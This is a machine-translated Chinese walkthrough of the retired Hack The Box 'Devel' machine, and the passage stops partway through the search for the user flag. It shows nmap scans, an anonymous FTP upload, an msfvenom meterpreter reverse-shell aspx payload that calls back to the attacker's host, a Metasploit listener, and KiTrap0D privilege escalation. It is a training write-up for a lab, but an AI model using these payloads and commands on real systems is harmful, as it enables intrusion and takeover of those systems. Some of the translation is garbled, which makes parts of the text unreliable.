# 保持冷静，黑掉盒子

> 原文：<https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-devel/>

黑客盒子(HTB)是一个在线平台，让你测试你的渗透测试技能。它包含几个不断更新的挑战。有些是模拟真实世界的场景，有些更倾向于 CTF 风格的挑战。

****注**** 。 **只允许报道退役的 HTB 机器。**


Devel 被描述为一个相对简单的盒子，展示了与一些默认程序配置相关的安全风险。这是一个初学者级别的机器，可以使用公开可用的漏洞来完成。

我们将使用以下工具将盒子典当在一个 [Kali Linux 盒子](https://www.kali.org/)上

*   [nmap](https://nmap.org/)
*   [zenmap](https://nmap.org/zenmap/)
*   [searchsploit](https://www.exploit-db.com/searchsploit)
*   [metasploit](https://www.metasploit.com/)
*   [大麻雀](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

## **步骤 1 -扫描网络**

开发一台机器的第一步是做一些扫描和侦察。

这是最重要的部分之一，因为它将决定你以后可以尝试利用什么。在这个阶段花更多的时间来获得尽可能多的信息总是更好的。

我将使用 **Nmap** (网络映射器)，这是一个用于网络发现和安全审计的免费开源工具。它使用原始 IP 数据包来确定网络上有哪些主机可用、这些主机提供什么服务、它们运行什么操作系统、使用什么类型的包过滤/防火墙以及许多其他特征。

这个工具有许多命令可以用来扫描网络。如果你想了解更多，你可以看一下文档[这里](https://tools.kali.org/information-gathering/nmap)。



我使用以下命令来获得我们正在扫描的内容的基本概念

```
nmap -sV -O -F --version-light 10.10.10.5
```

****-sV:**** 探测开放端口以确定服务/版本信息

****-O:**** 启用 OS 检测

****-F:**** 快速模式-扫描比默认扫描更少的端口

****-版本-光:**** 限于最有可能的探测器(强度 2)

****10.10.10。**5**:**开发盒的 IP 地址**

你也可以使用官方的 nmap 安全扫描器 GUI**Zenmap**。这是一个多平台、免费和开源的应用程序，旨在使 Nmap 易于初学者使用，同时为有经验的 Nmap 用户提供高级功能。



我使用一组不同的命令来执行密集扫描

```
nmap -A -v 10.10.10.5
```

**-A:** 启用操作系统检测、版本检测、脚本扫描和跟踪路由

**-v:** 增加详细级别

**10.10.10.5:** 开发箱的 IP 地址

如果您发现结果有点令人不知所措，您可以转到**端口/主机**选项卡，只获取开放的端口。



我们可以看到有两个开放的端口:

****港口** 21** 。文件传输协议(FTP)控制(命令)。这是一个微软的 FTP

****港口** 80** 。超文本传输协议(HTTP)。这是一个 IIS 服务器

在这种情况下，最有可能的初始攻击媒介似乎是 **FTP**

## **步骤 2 -** 易受攻击的 FTP

我们打开**火狐**并访问**的网站 http://10.10.10.5**



在侦察阶段，我们在微软的 FTP 下发现了 2 个文件。让我们看看能否从浏览器访问它们。



我可以通过访问来访问**welcome.png**图像文件

```
http://10.10.10.5/welcome.png
```



我也可以进入 iisstart.htm 的页面

```
http://10.10.10.5/iisstart.htm
```



我们现在知道两件事:

*   FTP 被用作 web 服务器的文件目录——这是在我们访问 recon 阶段的文件时发现的。



*   FTP 允许匿名登录-在我们执行密集扫描时发现的。


让我们看看能否创建一个文件并将其添加到 FTP 中



我使用这个命令创建了一个文件，并将结果输出到一个名为**htb.html**的文件中

```
echo HackTheBox > htb.html
```

然后我用 **ls** 检查文件是否已经创建，以及这个命令的文件内容是什么

```
cat htb.html
```

现在让我们连接到 FTP 来添加我们的测试文件


为了连接到 FTP，我使用以下命令

```
ftp 10.10.10.5
```

我键入 **anonymous** 作为用户名，然后按 enter 键输入密码，因为它允许匿名登录。

我现在连接到 FTP。



我用这个命令在 FTP 上添加文件

```
put htb.html
```

文件已成功发送。让我们看看能否从 Firefox 访问它。我访问这个页面，我们可以在网页上看到输出 **HackTheBox** 。

```
http://10.10.10.5/htb.html
```



现在我们知道我们可以发送文件，让我们策划一个漏洞！

## **步骤 3 -** 使用 MSFvenom 精心设计漏洞

我们将使用 MSFvenom，它是一个有效载荷生成器。你可以在这里了解更多信息



但是首先，让我们检查一下 **[Metasploit 框架](https://www.metasploit.com/)** 我们将需要哪个有效载荷来设计我们的漏洞。

我们知道我们需要创建一个**反向 shell** ，这是一种目标机器与攻击机器进行通信的 shell。攻击机器有一个侦听器端口，它在该端口上接收连接，通过使用，可以执行代码或命令。



[https://resources.infosecinstitute.com/icmp-reverse-shell/](https://resources.infosecinstitute.com/icmp-reverse-shell/)

反向 TCP 外壳应该是用于 Windows 的，我们将使用 **Meterpreter** 。

从攻击性安全网站上，我们得到了 Meterpreter 的这个定义

> Meterpreter 是一个高级的、可动态扩展的有效负载，它使用*内存中的* DLL 注入阶段，并在运行时通过网络进行扩展。它通过 stager 套接字进行通信，并提供全面的客户端 Ruby API。它具有命令历史，标签完成，渠道，等等。

你可以在这里阅读更多关于 Meterpreter [的内容。](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/)



我启动 **Metasploit** 并搜索反向 TCP 有效负载。我使用以下命令

```
search windows/meterpreter/reverse_tcp
```

我们发现一个有趣的有效载荷，编号 2，它是一个**反向 TCP Stager** 。该负载通过反射 Dll 注入负载注入 meterpreter 服务器 DLL，并连接回攻击者

```
payload/windows/meterpreter/reverse_tcp
```

现在让我们回到 **msfvenom** 来设计我们的漏洞。更确切的说是一个 **aspx** 反壳。这条信息是在侦察阶段收集的



我使用以下命令

```
msfvenom -p windows/meterpreter/reverse_tcp -f aspx -o devel.aspx LHOST=10.10.14.15 LPORT=4444
```

****-** p **:**** 有效载荷使用

****-** f **:**** 输出格式

****-**0**:**将有效载荷保存到文件中**

**LHOST**:**本地主机**

**LPORT**:**本地端口**

然后我用 **ls** 检查文件是否已经创建。是时候把它发送到 FTP 了

让我们重新连接 FTP，发送我们的小礼物！



我连接到 FTP，输入用户名 **anonymous** ，按回车键跳过密码。然后，我用以下命令发送该文件

```
put devel.aspx
```

让我们检查一下文件是否已经正确发送。回到 **Firefox** ，我用下面的命令导航到 FTP 服务器

```
ftp://10.10.10.5
```

可以看到我们的小礼物来了！



如果你好奇它看起来像什么，这是一个漏洞



## **步骤 4 -** 使用 Metasploit 设置监听器

回到 Metasploit，我使用下面的命令来设置有效负载处理程序

```
use exploit/multi/handler
```

我查看哪些选项可用



我们首先设置有效载荷

```
set payload windows/meterpreter/reverse_tcp
```

然后是 LHOST

```
set lhost 10.10.14.15
```

最后是 LPORT

```
set lport 4444
```

如果我们现在检查选项，我们应该看到一切都设置好了



让我们运行漏洞。

该消息出现后

```
Started reverse TCP handler on 10.10.14.15:4444
```

返回浏览器并访问托管恶意脚本的页面

```
http://10.10.10.5/devel.aspx
```

然后，您应该会看到创建了一个 Meterpreter 会话



现在我有了一个会话，我尝试在 meterpreter 上使用以下命令查找第一个标志 user.txt

```
search -f user.txt
```

没有与我的搜索匹配的文件。我试着。*查看其他文件，但没什么有用的



然后，我用下面的命令创建一个 shell

```
shell
```



我使用以下命令获取系统信息

```
systeminfo
```

我们可以看到注册的主人叫 **babis** 。当我们寻找用户标志时，这可能是一条重要的信息。我们还可以看到该机器没有任何修补程序。



我开始浏览文件夹。我用 **dir** 列出所有文件/文件夹，用 **cd** 改变目录。我在 **babis** 和 **Administrator** 文件夹上试试运气，但两者都拒绝我访问。



我们需要升级特权！知道当我们检查系统信息时，没有找到修补程序，我们可以尝试找到适用于这台机器的漏洞。

## 步骤 5 -执行权限提升

我用这个命令将会话置于后台

```
background
```

然后，我使用以下命令

```
use post/multi/recon/local_exploit_suggester
```

此模块建议可以使用的本地 Meterpreter 漏洞。根据用户打开的外壳的体系结构和平台以及 Meterpreter 中可用的漏洞来建议利用漏洞

我检查选项并设置会话



需要注意的是，并不是所有的本地漏洞都会被触发。攻击的选择基于以下条件:会话类型、平台、体系结构和所需的默认选项



沿着列表往下走

```
exploit/windows/local/bypassuac_eventvwr
```

由于 IIS 用户不是 administrators 组的成员而失败，这是默认情况，也是意料之中的。

我使用列表中的下一个漏洞，即

```
use exploit/windows/local/ms10_015_kitrap0d
```

此模块将通过 Tavis 奥曼迪利用 KiTrap0D 创建一个具有系统权限的新会话。如果正在使用的会话已被提升，则该漏洞将不会运行。该模块依赖于 kitrap0d.x86.dll，并且在 Windows x64 版本上不受支持。

当我们在 Meterpreter 会话中运行 **sysinfo** 时，发现目标是 x86 架构



我检查选项，然后设置会话



我运行这个漏洞。

漏洞利用成功，但无法创建会话。这是因为漏洞利用中的第一行试图在默认 eth0 和默认端口上设置反向处理程序，而不是 HTB 实验室的 VPN 接口。

```
Started reverse TCP handler on 10.0.2.15:4444
```



我检查选项并设置 LHOST 和 LPORT



然后，我用下面的命令检查所有活动的会话，以防会话死亡

```
sessions -l
```

我可以看到我的会话



现在我们有了一个 meterpreter 会话，让我们开始浏览文件夹并找到标志！

## **步骤 6 -寻找 user.txt 标志**

让我们先用下面的命令检查一下我们现在在哪里

```
pwd
```

代表**打印工作目录**



我上到 **C:\** 和 **ls** 所有的文件/文件夹。从我之前在**步骤 4——用 Metasploit** 设置监听器的尝试中，我已经知道从哪里开始了

